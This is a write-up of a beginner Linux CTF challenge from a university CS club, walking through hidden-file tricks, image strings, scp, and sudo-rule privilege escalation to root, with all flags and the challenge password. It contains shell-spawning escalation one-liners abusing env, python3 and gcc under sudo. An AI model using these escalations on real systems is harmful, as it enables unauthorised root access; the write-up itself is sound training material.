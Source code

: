 So, one of my friends at the university sent me a link to a Facebook post about a CTF challenge for fresher of the KMA CS Club. After nearly 4 hours of playing this challenge (half of the time I went in the wrong way LOL), I finally passed. Here is my write-up on how to solve it.  
## Link to post:
https://www.facebook.com/photo?fbid=122765970560556&set=a.120329284137558  
## Table of Contents
- [Information Gathering](#Information-Gathering)
- [Flags Discovering - Part 1](#Flags-Discovering---Part-1)
  - [flag1.txt](#flag1txt)
  - [flag3_4](#flag3_4)
  - [flag5_6.png](#flag5_6png)
- [Privilege Escalation - `mod`](#Privilege-Escalation---`mod`)
- [Flags Discovering - Part 2](#Flags-Discovering-Part-2)
  - [flag7.txt](#flag7txt)
- [Privilege Escalation - `admin`](#Privilege-Escalation---`admin`)
- [Flags Discovering - Part 3](#Flags-Discovering-Part-3)
  - [flag8.txt](#flag8txt)
- [Privilege Escalation - `root`](#Privilege-Escalation---`root`)
- [Flags Discovering - Part 4](#Flags-Discovering-Part-4)
  - [flag2.txt](#flag2txt)
  - [flag9.txt](#flag9txt)
  - [flag10.txt](#flag10txt)
  - [flag5_6.png (hardcore version)](#flag5_6png-hardcore-version)
  
## Information Gathering
- Connect: `ssh user@chall.kcsc.cf -p XXXXX`, password SSH: `kcsc@123`
- Directory `/home/user`:
```
total 112K
drwxr-xr-x 1 user user 4.0K Oct  7 15:00 .
drwxr-xr-x 1 root root 4.0K Oct  4 16:31 ..
lrwxrwxrwx 1 root root    9 Oct  4 16:22 .bash_history -> /dev/null
-rw-r--r-- 1 user user  220 Oct  4 16:22 .bash_logout
-rw-r--r-- 1 user user 3.7K Oct  4 16:22 .bashrc
drwx------ 2 user user 4.0K Oct  7 15:00 .cache
-rw-r--r-- 1 user user  807 Oct  4 16:22 .profile
-rw-r--r-- 1 root root   28 Oct  4 15:32 flag1.txt
-r-------- 1 root root   36 Oct  4 16:30 flag2.txt
drwxr-xr-x 2 root root 4.0K Oct  4 16:31 flag3_4
-rw-r--r-- 1 root root  47K Oct  4 15:32 flag5_6.png
-r-------- 1 root root   28 Oct  4 15:32 flag9.txt
-r--r--r-- 1 user user  17K Oct  4 16:22 read_flag2'
```
- Directory `/home/user/flag3_4`:
```
total 16K
-rw-r--r-- 1 root root   30 Oct  4 15:32 -
drwxr-xr-x 2 root root 4.0K Oct  4 16:31 .
drwxr-xr-x 1 user user 4.0K Oct  7 15:00 ..
-rw-r--r-- 1 root root   34 Oct  4 15:32 ...  
```
- Directory `/home/mod`:
```
total 28K
drwxr-xr-x 1 mod  mod  4.0K Oct  4 16:31 .
drwxr-xr-x 1 root root 4.0K Oct  4 16:31 ..
lrwxrwxrwx 1 root root    9 Oct  4 16:31 .bash_history -> /dev/null
-rw-r--r-- 1 mod  mod   220 Oct  4 16:31 .bash_logout
-rw-r--r-- 1 mod  mod  3.7K Oct  4 16:31 .bashrc
-rw-r--r-- 1 mod  mod   807 Oct  4 16:31 .profile
-r--r----- 1 mod  mod    31 Oct  4 15:32 flag7.txt
```
- Directory `/home/admin`:
```
drwxr-xr-x 1 admin admin 4.0K Oct  7 15:04 .
drwxr-xr-x 1 root  root  4.0K Oct  4 16:31 ..
lrwxrwxrwx 1 root  root     9 Oct  4 16:31 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 Oct  4 16:31 .bash_logout
-rw-r--r-- 1 admin admin 3.7K Oct  4 16:31 .bashrc
-rw-r--r-- 1 admin admin  807 Oct  4 16:31 .profile
-rw-r--r-- 1 admin admin    0 Oct  7 15:04 .sudo_as_admin_successful
-r--r----- 1 admin admin   30 Oct  4 15:32 flag8.txt
```
- Directory `/`:
```
bin  boot  dev  etc  flag10.txt  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

## Flags Discovering - Part 1
### flag1.txt
Simply use the command `cat flag1`, we get the flag: `KCSC{part_1_read_file_4zs0}`
### flag3_4
- flag3: Using `ls -lah` to list all the file in `flag3_4` folder, we see a file with the name `-`. Using command `cat ./-`, we get the flag: `KCSC{part_3_read_file_strike}`  
- flag4: We can also see that in this folder, there is a file name `...`. Using command `cat ./...`, we get the flag: `KCSC{part_4_read_file_quadra_dot}`
### flag5_6.png
- flag6: By checking strings in the image file: `strings flag5_6.png`, we get the flag: `KCSC{part_6_read_me_pls}`
- flag5: There are 2 ways to get this flag:
1. Because we cannot display the png using the terminal without any tool, we must somehow have this file in our computer, which allows us to see the image file. To do so, first, we must copy the image file to the `/tmp` folder to be able to copy this file: `cp flag5_6.png /tmp`. Then, in our machine's terminal, using `scp` command to copy this file to our computer: `scp -P XXXXX user@chall.kcsc.cf:/tmp/flag5_6.png /tmp`. Open this file, we get the flag: `KCSC{part_5_u_know_scp}`  
  2. At first, I don't remember the `scp` way, so my idea is to get the `root` privilege, then install some tool to read the image's content directly in the terminal. This idea will take a very long time (we must get the `root` privilege first), but it is possible as you will see later. 
  
## Privilege Escalation - `mod`
We return back to `/home` to check how many users are available on this machine. The remaining 2 users are `mod` and `admin`, and each user's `home` folder has a flag file which only that user can open. So, we must somehow "become" those users to be able to read those flag. Checking `sudo -l` for any exploitable vulnerabilities:
```
user@kcsc:~$ sudo -l
Matching Defaults entries for user on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on kcsc:
    (root) NOPASSWD: /home/user/read_flag2
    (mod) NOPASSWD: /usr/bin/env
```
Searching on [gtfobin](https://gtfobins.github.io), we see that `env` binary can be used for privilege escalation, as this can be run as `mod` user without requiring any password. So, we try to spawn a shell with `mod` privilege using `env`: `sudo -u mod env /bin/bash`, and now we have become `mod`!
## Flags Discovering - Part 2
### flag7.txt
Now, we can simply `cat flag7.txt` to get the flag: `KCSC{part_7_wow_u_r_quite_gud}`
## Privilege Escalation - `admin`
The only user left before getting `root` is `admin`. Checking `sudo -l` for any exploitable vulnerabilities:
```
mod@kcsc:~$ sudo -l
Matching Defaults entries for mod on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mod may run the following commands on kcsc:
    (admin) NOPASSWD: /usr/bin/python3
```
The `python3` binary can also be used for privilege escalation, so we spawn a shell with `admin` privilege using this binary: `sudo -u admin python3 -c 'import os; os.system("/bin/sh")'`.
## Flags Discovering - Part 3
### flag8.txt
Now, we can simply `cat flag8.txt` to get the flag: `KCSC{part8_hmm_u_know_env_sh}`
## Privilege Escalation - `root`
Final target! Checking `sudo -l` for any exploitable vulnerabilities:
```
$ sudo -l
Matching Defaults entries for admin on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on kcsc:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/gcc
```
Again, `gcc` can be used to spawn a shell with `root` privilege: `sudo -u root gcc -wrapper /bin/sh,-s .`.
## Flags Discovering - Part 4
### flag2.txt
At the `/home/user` folder, this file along with `flag9.txt` is `root` only. Now, as we become `root`, we can `cat flag2.txt` to get the flag: `KCSC{part_2_hello_pls_not_get_root}`
### flag9.txt
Like `flag2.txt`, `cat flag9.txt` give us the flag: `KCSC{part_9_r_u_vim_lord??}`
### flag10.txt
Using `find` command to find this file: `find / -name flag10.txt 2>/dev/null`, we found this file at `/` directory. `cat flag10.txt` give us the final flag: `KCSC{part_10_tuong_vy_la_con_nao_the???}`
### flag5_6.png (hardcore version)
As I mention before, we can still get this flag when become `root` without using `scp`. [chafa](https://hpjansson.org/chafa/) is a tool that allow us to see the content of image file directly on the terminal. Install this tool and see the image, we can still get the same flag as the `scp` way:
```
sudo apt-get install chafa
chafa flag5_6.png
```
